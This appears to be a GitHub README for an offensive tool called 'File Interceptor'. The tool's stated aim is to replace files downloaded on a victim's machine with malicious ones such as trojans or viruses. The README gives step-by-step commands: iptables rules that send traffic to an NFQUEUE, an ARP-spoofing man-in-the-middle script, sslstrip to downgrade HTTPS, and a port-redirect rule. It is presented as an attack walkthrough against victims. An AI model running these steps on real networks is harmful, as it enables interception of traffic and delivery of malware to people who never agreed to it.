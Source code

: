 ## File Interceptor

A Program that download the another file
on victim's machine, using arp_spofing
replace the official file with malicious
file, trojans, virus, etc.

### **Run the iptables command**           
If you are targeting the remote computers,
then redirect the `FORWARD` chain to your
queue using the following command
```bash
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

If you are testing on your local machines,
then redirect the INPUT & OUTPUT chains.
```bash
iptables -I INPUT -j NFQUEUE --queue-num 0
iptables -I OUTPUT -j NFQUEUE --queue-num 0
```

### **Run MiTM(Man-in-The-Middle) Attack**
by using `arp_spoof.py` 
```bash
iptables --flush # restore the default iptables values
python arp_spoof.py # To run arp_spoof
```

### **SSLstrip**.   
Run `sslstrip` Tool pre-installed in Kali Linux.
```bash
sslstrip
```

Run 
```bash
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
iptables -t nat -A PREROUTING -p tcp --destionation-port 80 -j REDIRECT --to-port 10000
python file-interceptor.py
```
